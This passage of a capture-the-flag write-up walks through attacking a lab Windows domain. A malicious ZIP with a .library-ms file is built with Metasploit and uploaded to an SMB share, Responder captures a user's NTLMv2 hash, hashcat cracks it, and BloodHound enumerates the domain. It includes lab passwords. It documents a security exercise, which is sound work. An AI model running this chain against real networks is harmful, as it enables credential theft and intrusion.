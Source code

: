 {% code overflow="wrap" %}
```bash
$ sudo msfconsole -q -x "use auxiliary/server/ntlm_hash_leak; set ATTACKER_IP 10.10.15.15; set FILENAME exploit.zip; set LIBRARY_NAME malicious.library-ms; set SHARE_NAME WIN-I4J8LPW1O3B; run; exit;"
```
{% endcode %}

We upload the malicious ZIP to the writable share:

{% code overflow="wrap" %}
```bash
$ nxc smb dc01 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --share IT --put-file exploit.zip exploit.zip
```
{% endcode %}

Once the victim interacts with this file, their NTLMv2 hash is captured by Responder:

{% code overflow="wrap" %}
```bash
$ sudo responder -I tun0
...
05/28/2025 09:31:44 PM - [SMB] NTLMv2-SSP Client   : 10.10.11.69
05/28/2025 09:31:44 PM - [SMB] NTLMv2-SSP Username : FLUFFY\p.agila
05/28/2025 09:31:44 PM - [SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:c34...000
```
{% endcode %}

We then attempt to crack this hash offline:

{% code overflow="wrap" %}
```bash
$ hashcat -m5600 p.agila_hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
P.AGILA::FLUFFY:c34...000:prometheusx-303
```
{% endcode %}

To map domain relationships and potential privilege escalation paths, we collect comprehensive domain data using BloodHound enumeration:

{% code overflow="wrap" %}
```bash
# Collect domain data
$ nxc ldap 10.10.11.69 -u p.agila -p prometheusx-303 --bloodhound -c All --dns-server 10.10.11.69
```
{% endcode %}

## Privilege Escalation

### Shadow Credentials

Analyzing the domain data with BloodHound gives us a potential PE vector:

<figure><img src="../../.gitbook/assets/bh_fluffy_ca.png" alt=""><figcaption></figcaption></figure>
